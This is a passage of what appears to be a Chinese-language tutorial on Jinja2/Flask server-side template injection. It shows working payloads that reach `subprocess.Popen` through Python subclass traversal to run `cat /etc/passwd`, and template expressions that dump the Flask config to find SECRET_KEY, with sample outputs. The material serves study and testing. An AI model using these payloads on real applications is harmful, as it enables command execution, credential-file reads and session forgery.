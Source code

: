 既然通过索引能获取到 `subprocess.Popen` 类，通过 `()` 执行构造方法，传递要执行的命令。命令执行完 `communicate()` 读取 stdout 和 stderr 数据组成元组 `(stdout_data, stderr_data)` 返回。

```bash
{{''.__class__.mro()[1].__subclasses__()[233]("cat /etc/passwd", shell=True, stdout=-1).communicate()[0]}} 
{{''.__class__.mro()[1].__subclasses__()[233](['cat', "/etc/passwd"], stdout=-1).communicate()[0]}}
```

[subprocess.Popen 构造方法参数](https://docs.python.org/3/library/subprocess.html#popen-constructor)为什么这样写？下面解读下。

*args* 默认读取列表，命令以空格作为分隔符，比如 `cat /etc/passwd /etc/shadow`，就要写成 `['cat', '/etc/passwd', '/etc/shadow']`。

*shell* 使用 `shell=True` 可直接在引号内写命令。Linux 下默认使用 /bin/sh 执行命令，Windows 怎么执行不太清楚。

```bash
Popen(['/bin/sh', '-c', 'cat /etc/passwd'])
```

*stdout* 具体为什么用 -1 暂时无法得知，不用就无法输出数据。

#### 读取 Flask 配置

如果无法读取文件尝试看看能不能获取 Flask 配置信息

```bash
{{config}}
{{self.__dict__}}
{{url_for.__globals__['current_app'].config}}
{{get_flashed_messages.__globals__['current_app'].config}}
```

重点关注配置中 SECRET\_KEY 项。

```bash
<Config {'JSON_AS_ASCII': True, 'USE_X_SENDFILE': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_DOMAIN': None, 'SESSION_COOKIE_NAME': 'session', 'SESSION_REFRESH_EACH_REQUEST': True, 'LOGGER_HANDLER_POLICY': 'always', 'LOGGER_NAME': 'app', 'DEBUG': False, 'SECRET_KEY': None, 'EXPLAIN_TEMPLATE_LOADING': False, 'MAX_CONTENT_LENGTH': None, 'APPLICATION_ROOT': None, 'SERVER_NAME': None, 'PREFERRED_URL_SCHEME': 'http', 'JSONIFY_PRETTYPRINT_REGULAR': True, 'TESTING': False, 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'PROPAGATE_EXCEPTIONS': None, 'TEMPLATES_AUTO_RELOAD': None, 'TRAP_BAD_REQUEST_ERRORS': False, 'JSON_SORT_KEYS': True, 'JSONIFY_MIMETYPE': 'application/json', 'SESSION_COOKIE_HTTPONLY': True, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(0, 43200), 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SESSION_COOKIE_SECURE': False, 'TRAP_HTTP_EXCEPTIONS': False}>
```

#### self 对象获取

#### 其他 Payload

`{{[].__class__.__base__.__subclasses__()}}`

```bash
>>> import jinja2
>>> jinja2.Template("{{ [].__class__.__base__.__subclasses__() }}").render()
"[<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_rever......
```
